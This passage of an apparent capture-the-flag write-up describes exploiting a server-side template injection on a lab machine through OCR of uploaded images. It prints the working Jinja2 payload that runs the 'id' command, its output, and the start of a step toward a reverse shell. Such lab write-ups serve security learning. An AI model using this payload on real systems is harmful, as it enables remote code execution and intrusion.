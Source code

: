     
    
    <p>cycler. init. globals__.os.popen('id').read()
    </p>
    

It’s missing underscores before and after `init`, as well as before `globals`,
and has inserted spaces.

I’ll try changing different fonts to see if I can find one that shows the
right payload. Many people complained in reviews about this being really
painful. I found the process to go smoothly by updating the image / font on
one monitor in KolourPaint, hitting Ctrl-s to save, going back to the Late
page (which already has the filename in the form), clicking “Scan Image”, and
then opening the downloaded `results.txt` file worked pretty well, and I am
able to test a font in 5-10 seconds.

The first one I’ll try, “aakar”, is really close:

    
    
    <p>cycler.__init__.__globals__.os.popen(’id’).read()
    </p>
    

But it’s using fancy quote marks, and that fails when I try to add back in the
`{{ }}`:

![image-20220725141751822](https://0xdfimages.gitlab.io/img/image-20220725141751822.png)

When I get to FreeMono, it looks really close:

    
    
    <p>cycler.__init__.__globals__.os.popen('id') .read()
    </p>
    

There’s an extra space before `.read()`, but it might work if changing the
spacing happens when I add `{{ }}`? I’ll try it:

![](https://0xdfimages.gitlab.io/img/late-ssti-poc-rce-16587734024135.png)

It works:

    
    
    <p>uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
    
    </p>
    

#### Shell

To get a shell from this, I’ll update the payload with the shorted reverse
shell I can think of:

![](https://0xdfimages.gitlab.io/img/late-ssti-rev-10.10.14.6.png)

I’ll create `r` with a basic Bash reverse shell ([explained
here](https://www.youtube.com/watch?v=OjkVep2EIlw))
